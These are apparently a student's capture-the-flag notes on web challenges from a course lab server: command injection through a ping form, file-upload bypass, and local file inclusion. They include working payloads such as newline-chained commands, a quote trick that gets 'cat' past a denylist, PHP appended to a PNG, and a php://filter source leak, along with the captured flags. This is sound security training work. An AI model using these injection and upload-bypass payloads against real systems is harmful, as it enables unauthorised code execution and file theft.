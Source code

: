 ### 🟢 ping (100)
**Solve:**
User input is stored into a POST request variable called ip. This variable will be passed to php's shell_exec() function which takes in a command as a string and returns a single output also as a string. Try a few. We realize things like &, |, ; and space characters are banned. So we can't use them to chain two commands. Go research a little and find other ways to chain commands, like using the newline character %0A (url-encoded). 

Enter this:
`127.0.0.1%0Als`

Get the following output.
![[Captura de pantalla 2024-11-26 a las 14.49.01.png]]

There's a php flag file. We enter as URL: `offsec-chalbroker.osiris.cyber.nyu.edu:1503/f14g_cmdi.php` and the code runs. We see the flag rendered on the page. 

An alternative solution is to directly inject the command to `cat` the flag php file content. `cat` is forbidden, but we can use single-quotes to escape it: 
`127.0.0.1%0Ac'a't%09f14g_cmdi.php`

flag{now_you_have_command_to_my_army_snow!_e3a163e4db83ffaf}


**Trial-and-error Notes:**
- Allowed chars
	- &
		- && logical AND to chain the second one since ; is banned
		- Observation: & is ok but entering its URL-encoded value %26 says that the character is banned...
	- []
	- ls
	- { } curly braces
		- brace expansion
			- when try: {127.0.0.0,127.0.0.1}, only pings the second IP once
	- ${IFS} as space
- Denylist
	- ['cat', ';', space, '|', 'pwd', 'whoami', 'history', 'echo\']
- Trials
	- 
- observations
	- URL-encoded chars get interpretted as the char
		- %3B as ; which is still forbidden
	- Denylist based, not allow-list
		- denies if the input contains banned words or chars
			- feedback shows the first detected denied thing
	- %00
		- `<b>Warning</b>:  shell_exec(): NULL byte detected. Possible attack in <b>/var/www/html/ping.php</b> on line <b>35</b><br />`
	- Try on my local terminal: **ping 127.0.0.0&&ls**
		- keeps pinging, does not get onto ls
		- I think it's because ping is a continuous operation. 
		- I need an intermediate operation to stop the ping and then chain the desired command at the end.
			- Add a flag to ping command to ping just once then stop:
				- `ping -c 1 127.0.0.1&&ls` sent as as `ping${IFS}-c${IFS}1${IFS}127.0.0.1&&ls` because space is denied
					- Outcome: no result displayed...
					- Investigate: try on local terminal, this gives: **zsh: command not found: ping \t\n**
					- So the ${IFS} represents two chars together: \t\n
					- what about using tab %09?
						- -c%091%09127.0.0.1&&whoami
							- returns the ping output
							- weird bc whoami was supposedly banned
							- There must be some filtering done to the input?
				- Alternatives
					- **``echo {ping,127.0.0.1}``&&ls**
						- works to execute both commands but that space char after echo...
						- I'll also need to find a way to bypass echo which is a banned word




### locale-infiltrator (200)
What files can be uploaded?
- .php file renamed to .png
	- > Conclusion: Only check file-name extension, not magic bytes/MIME
After successful upload:
- brings me to: **upload_handler.php**
	- Is there a way to dump the src code of this page?
	- Where do they put uploaded files? !!!!!!!!!!!
		- S.t. I can navigate to it and execute
- I uploaded curr_dir.php.png onto the server
	- That contains malicious code that displays contents of current directory
	- Now I need to somehow include that file and cause it to run
Language of the page
- $lang=en or =fr
	- I think this is used to concatenate with a filepath to serve a .php page
	- If I manipulate the value of this param, I can potentially cause a specific .php to be served
Fishy behaviour
	- URL 
	http://offsec-chalbroker.osiris.cyber.nyu.edu:1501/upload_handler.php
	- ![[Captura de pantalla 2024-11-26 a las 16.22.32.png]]
### validator (100)
Topic: upload malicious file (file inclusion)
**Solve:**
- Part 1: Initial Observations on the webpage
	- Pages
		- index.php
		- about.php
		- contact.php
			- Enter name and email
			- Can upload file <= 500 KB
				- uploads to the directory: /profile_images
				- Only JPG, JPEG, and PNG images are allowed.
					- Even if the file has MIME-bypass header in the code, if it's .php, will not work.
					- Conclusion: must rename file to .png or .jpg
				- Tried uploading a text file renamed to suffix .png > not allowed still "Only images are allowed". Tried uploading "test.png.php" such that the file name includes png - did not work. 
					- Conclusion: MIME type filtering is in place. 
				- Summary of findings
					- Server checks file name extension: must end in .jpg or .png
						- Failed:
						- `val_hi.jpg.php`
					- Successful Uploads but can't find the file:
						- `a_hi.php%00.png%00.jpg`
					- Server also checks file MIME type: must have GIF89a; at the header of the php code
					- Cannot see executed code?? errored image
						- Goal: upload as .jpg but run as .php not image
						- `val_hi.php.jpg` will try to display it as image but fails 
						- `val_hi.php%00.png` becomes `val_hi.php.png`
						- `val_hi.php\x00.png` becomes `x00.png`
						- `a_hi.php;.png`
					- Filters by whitelist, not denylist
						- does not ban words like .php
						- must include .jpg / .jpeg / .png at the END
- Part 2: Plan our attack
	- **Key Idea:** write .php file to leak contents of flag.txt presumably in root directory. Upload it as an image file. Navigate to that image file by entering its filepath in the browser's search bar. The code executes and we get the flag.
	- Recon
		- leak source code for contact.php page to see how upload is processed? Cannot. Because this simply navigates to the page, not storing the page in a URL query ?page= which then uses require_once() to run the code
	- Steps
		- Write .php file to display contents of flag.txt, presumably in root directory (same as index.php)
			- Why does the upload directory matter? 
				- Need to go up a level to get to root directory
				- 
		- Create valid picture hosting this PHP code. 
			- 
		- Upload this picture 
		- Don't I need to upload another file to execute this picture's code?
			- Actually no. Once I upload this picture file, I just have to type in its file path to get it to show on the browser. Which means that if this picture was executable php code, just by entering its filepath in the search bar would cause the php server to run the code
	- Problems
		- can upload .png, .php.png containing malicious php code
			- When navigate to this uploaded file, browser cannot display image
				- Solution: upload a .png file. Have it be an actual image. But insert php code at the end of the png file: 
					- `echo '<?php echo "hey yo"; ?>' >> image.png

### 🟢 LFI: local file inclusion (100)
**Solve:**
This is a news website. From the URL, we see the parameter `page` in the query string, set to whatever page we are viewing. The page is generated by executing code from the corresponding php file specified by the value of parameter `page`. Let's try messing around with the parameter, setting it to something like "random". Enter and we receive: 

```
**Warning**: require_once(random.php): failed to open stream: No such file or directory in **/var/www/html/index.php** on line **32**  
  
**Fatal error**: require_once(): Failed opening required 'random.php' (include_path='.:/usr/local/lib/php') in **/var/www/html/index.php** on line **32**
```

This indicates the value of `page` is appended to `.php` before the file is inserted and executed. It tells us we should enter the desired file name without `.php`.

Let's try to set `page=flag` to see if there's a flag file. We get the output "Can you find the flag?". This indicates the file does exist. It'll be helpful to leak the source code of this file. Do that by using php conversion filters, which are applied to the file to be included BEFORE its code is then executed. 

Enter the following URL:
http://offsec-chalbroker.osiris.cyber.nyu.edu:1500/index.php?page=php://filter/convert.base64-encode/resource=flag

We will get the source code of `flag.php`, base64-encoded: `PD9waHAKLy9mbGFne1cwd19MRklfMXNfQzBPbCFfMmMyMmM0MTVkMmU3OTk3Zn0KPz4KQ2FuIHlvdSBmaW5kIHRoZSBmbGFnPw==`

Let's decode this string in the terminal using `echo "PD9waHAKLy9mbGFne1cwd19MRklfMXNfQzBPbCFfMmMyMmM0MTVkMmU3OTk3Zn0KPz4KQ2FuIHlvdSBmaW5kIHRoZSBmbGFnPw==" | base64 -d`

The output is:
```php
<?php
//flag{W0w_LFI_1s_C0Ol!_2c22c415d2e7997f}
?>

Can you find the flag?%
```

There's the flag, hiding in the comment!
flag{W0w_LFI_1s_C0Ol!_2c22c415d2e7997f}



